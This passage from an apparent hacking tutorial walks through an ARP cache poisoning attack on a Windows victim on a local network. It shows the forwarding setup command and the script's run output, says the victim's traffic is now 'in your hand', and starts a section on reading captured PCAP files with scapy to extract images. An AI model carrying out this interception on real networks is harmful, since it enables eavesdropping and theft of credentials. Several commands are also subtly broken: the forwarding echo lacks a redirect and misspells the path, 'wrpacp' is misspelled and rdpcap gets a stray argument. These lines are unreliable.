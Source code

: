To run this ARP cache poisoning script, we need to tell the local host machine (Kali Linux) to forward packets along both the gateway and the target IP address:

```sh
$ echo 1 /proc/sys/net/ipv4/ip_foward
```

Finally, we run out script, which prints the following output:

```
$ sudo python arp_cache_poisoning.py
[*] Setting up wlp1s0
[*] Gateway 192.168.1.1 is at 00:90:a9:a3:f1:46
[*] Target 192.168.1.107 is at 00:25:9c:b3:87:c4
[*] Beginning the ARP poison. [CTRL-C to stop]
[*] Starting sniffer for 1000 packets
[*] ARP poison attack finished.
[*] Restoring targets...
```
While running that, we can see the changes in the victim's machine (Windows):

![](http://i.imgur.com/RFdIz4H.png)

Once you are done,  open the PCAP file resulting from the script. BAM! The entire traffic from the victim is in your hand!






------
## <a name="pcap"></a> PCAP Processing to Find Images

We have learned how to steal credentials from some email protocols, now let us extend this to all the traffic in the network!

### Writing and Saving PCAP Files

To save packets we can use the function **wrpacp**:
```python
wrpcap('packets.pcap', p)
```

To read packets we can use **rdpcap**:
```python
p = rdpcap('packets.pcap', p)
p.show()
```

### Analyzing PCAP Files

Based in one of the examples from [Black Hat Python]() we are going to analyze images from HTTP traffic dumped in a PCAP file. We can do this with the library [opencv](http://opencv.org/). We also need to install [numpy](http://www.numpy.org/) and [scipy](http://www.scipy.org/):

```sh
$ sudo pip install numpy
$ sudo pip install scipy
$ sudo yum install opencv-python
```
